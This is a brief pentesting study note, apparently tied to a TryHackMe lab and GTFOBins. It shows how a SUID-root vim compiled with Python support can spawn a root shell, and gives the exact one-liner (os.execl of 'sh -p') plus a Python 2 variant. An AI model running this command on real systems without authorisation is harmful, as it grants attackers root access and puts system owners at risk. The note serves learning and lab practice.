 # Exploiting ViM

author:: Nathan Acks  
date:: 2021-11-04

If ViM is SUID root *and* is compiled with Python support, it can be used for privilege escalation.

```bash
vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

NOTE: Use `:py` instead if only Python 2 is available.

## References

* [Basic Pentesting](tryhackme-basic-pentesting.md)
* [GTFOBins: vim](https://gtfobins.github.io/gtfobins/vim/)
